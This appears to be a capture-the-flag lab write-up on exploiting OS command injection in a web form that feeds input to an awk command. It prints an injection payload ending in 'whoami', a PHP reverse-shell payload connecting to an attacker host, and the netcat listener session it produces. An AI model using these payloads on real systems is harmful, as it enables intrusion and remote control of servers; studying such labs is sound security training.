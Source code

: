 # Challange

### Website Interface:

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/bb4495ee-93e9-4730-be34-f344f9777c03)

- When entering values in the input boxes, a corresponding output is generated. 

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/b8658bac-bd72-4975-b28e-cb6ac6e81185)

- Upon inspecting the source code, I discovered certain elements or information.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/4319fd1c-00db-41f2-a3c7-62d0a371177f)

- It appears that I can potentially use the output.
- By entering the "random" value or input, I encountered a specific response or behavior.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/75c1dc58-2d71-4c9b-a2b2-412c204c387f)

```html
<div class="p-5 mb-4 bg-light rounded-3" style="background-color: none !important; padding: 0 !important">
		            <p class="text-center">Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}'<br>Result: 798.53
</p>
		        </div>
```
- After attempting various options, one of them eventually proved successful in achieving the desired outcome.
- After modifying the "cmd" and injecting the `whoami` command, the system responded with the output displaying the username that is www-data.

- cmd: `789)^2))}';whoami;#`
![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/a8a3314e-a231-4d18-815b-7b6d8ad44027)

```html
		<div class="p-5 mb-4 bg-light rounded-3" style="background-color: none !important; padding: 0 !important">
		            <p class="text-center">Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}';whoami;#)^2))}'<br>Result: 798.53
www-data
</p>
```
- After experimenting with different payloads, you successfully landed on a PHP reverse shell, allowing you to regain a shell connection to the system.
- cmd: `789)^2))}';php -r '$sock=fsockopen("<LHOST>",1234);exec("/bin/sh -i <&3 >&3 2>&3");';#`

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/ebd2fff6-6ff7-4a57-b4a4-0a9a676aaed9)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.251.186] from (UNKNOWN) [172.18.0.4] 50032
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
